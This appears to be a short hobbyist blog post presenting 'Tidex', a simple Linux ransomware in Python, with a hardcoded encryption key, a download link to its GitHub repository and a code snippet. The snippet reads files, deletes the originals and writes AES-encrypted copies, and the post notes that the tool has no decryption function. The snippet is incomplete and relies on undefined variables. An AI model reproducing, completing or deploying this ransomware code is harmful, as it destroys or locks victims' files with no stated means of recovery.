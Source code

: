 ```yaml
---
title: "Tidex Ransomware"
excerpt: "Ransomware Example Tidex for Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex

Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;

## Important

At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: **hkpykiiqftupr3okl04azj**

&nbsp;

Code Example

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

### [Dowload Here From GitHub](https://github.com/aiskoadt/Tidex)

Thx
~ aiskoa.
